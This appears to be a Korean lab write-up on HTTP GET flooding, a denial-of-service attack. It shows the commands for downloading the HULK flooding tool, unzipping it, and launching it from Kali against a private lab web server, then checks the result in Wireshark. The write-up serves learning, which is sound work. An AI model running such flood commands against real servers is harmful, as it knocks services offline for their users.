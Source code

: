 ```yaml
---
title:  "HTTP Get Flooding" 

categories:
  - dos
tags:
  - [dos]

toc: true

date: 2022-10-04
last_modified_at: 2022-10-04
---
```


## GET Flooding

- GET Flooding
  - 공격자가 동일한 URL을 반복 요청하여 웹 서버의 부하를 유발하는 공격
  - 요즘은 많이 보이지 않고 변형공격 GET 전송시에 랜덤으로 URL 을 변조하여 보내는 방식

- 실습

  - 구성도

  - 설정

    > 파일 다운로드

    ```
    wget https://github.com/grafov/hulk/archive/master.zip
    ```

    ![화면 캡처 2022-10-06 155600](../../assets/img/화면 캡처 2022-10-06 155600.png)

    > 압축해제

    ```
    # unzip /root/master.zip
    ```

    ![화면 캡처 2022-10-06 155752](../../assets/img/화면 캡처 2022-10-06 155752.png)

    > hulk.py 를 실행하려면 python이 필요하기 때문에 phython 확인

    ```
    # python
    ```

    ![화면 캡처 2022-10-06 161233](../../assets/img/화면 캡처 2022-10-06 161233.png)

    ```
    # python2
    ```

    ![화면 캡처 2022-10-06 161255](../../assets/img/화면 캡처 2022-10-06 161255.png)

  - 공격

    ```
    ┌──(root㉿kali)-[~/hulk-master]
    └─# cd hulk-master
    ┌──(root㉿kali)-[~/hulk-master]
    └─# python2 hulk.py http://172.16.0.120(웹서버주소)
    ```

    ![화면 캡처 2022-10-06 161534](../../assets/img/화면 캡처 2022-10-06 161534.png)

  - 와이어샤크로 확인

    ![화면 캡처 2022-10-06 161139](../../assets/img/화면 캡처 2022-10-06 161139.png)

  - 웹서버 접속시 접속은 되지만 느려진다

    

    

    

  